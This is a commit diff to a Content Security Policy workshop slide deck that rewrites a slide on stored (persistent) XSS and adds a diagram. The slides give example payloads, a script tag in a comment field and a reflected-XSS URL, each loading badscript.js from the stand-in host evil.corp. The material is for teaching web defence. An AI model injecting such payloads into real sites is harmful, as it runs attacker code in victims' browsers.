

Before and after one commit to knut-erik/csp-workshop, a Markdown page: content/csp-presentation.md, the part around the change. Rendered like a GitHub page; pictures changed too: content/resources/stored_persistent_xss.png (added); blank space fills up the shorter version.

Commit message:
Added drawing for examplification of XSS stored persistent attack

````diff
--- a/content/csp-presentation.md
+++ b/content/csp-presentation.md
@@ -126,16 +126,19 @@ https://insecure-web.com/comment?message=<script src=https//evil.corp/badscript.
 
 ---
 
-# Stored XSS attack
+# Stored (persistent) XSS attack
 
 Stored XSS generally occurs when user input is stored on the target server, such as in a database, in a message forum, visitor log, comment field, etc. And then a victim is able to retrieve the stored data from the web application without that data being made safe to render in the browser.
 
-Comment field on a blog post:
-```
-Instead of a decent comment on the blog's input field, I write
-
+ Instead of a decent comment on the blog's input field, the attacker write:
+```html
 <script src='https//evil.corp/badscript.js'/>
 ```
+
+---
+
+![bg 70%](./resources/stored_persistent_xss.png)
+
 ---
 
 # Terms to help organize types of XSS - 1 / 2
````
Also changed, not shown: 1 other file.
